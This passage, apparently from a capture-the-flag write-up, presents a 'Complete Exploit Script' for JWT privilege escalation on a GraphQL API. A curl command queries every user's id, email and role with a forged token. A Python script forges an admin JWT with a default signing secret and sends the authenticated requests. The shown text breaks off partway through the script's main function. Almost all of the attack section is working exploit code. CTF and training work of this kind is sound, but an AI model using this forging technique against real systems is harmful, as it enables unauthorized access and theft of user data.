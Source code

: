 ```bash
curl -X POST https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql \
  -H "Content-Type: application/json" \
  -H "Authorization: Bearer YOUR_FORGED_TOKEN" \
  -d '{"query": "query { users { id username email role created_at } }"}'
```

## 🛠️ Complete Exploit Script

Here's a complete Python script that automates the entire exploit:

```python
#!/usr/bin/env python3
import jwt
import time
import requests
import json

# Configuration
API_URL = "https://4000-ihbuvsewwq89vw5dzkq46-278bf4c2.manus.computer/graphql"
JWT_SECRET = "your-super-secret-jwt-key-change-this-in-production"

def forge_jwt_token(user_id=1):
    """Forge a JWT token for the given user ID"""
    payload = {
        "userId": user_id,
        "iat": int(time.time()),
        "exp": int(time.time()) + 3600  # 1 hour expiry
    }
    
    token = jwt.encode(payload, JWT_SECRET, algorithm="HS256")
    return token

def graphql_request(query, token=None):
    """Make a GraphQL request"""
    headers = {"Content-Type": "application/json"}
    if token:
        headers["Authorization"] = f"Bearer {token}"
    
    response = requests.post(
        API_URL,
        headers=headers,
        json={"query": query}
    )
    
    return response.json()

def main():
    print("🎯 Starting JWT Privilege Escalation CTF Challenge")
    print("=" * 50)
    
    # Step 1: Forge JWT token
    print("1. Forging JWT token...")
    token = forge_jwt_token(user_id=1)
    print(f"   Forged token: {token[:50]}...")
    
    # Step 2: Test authentication
    print("\n2. Testing authentication...")
    me_query = "query { me { id username role } }"
    result = graphql_request(me_query, token)
    
    if "errors" in result:
        print(f"   ❌ Authentication failed: {result['errors']}")
        return
```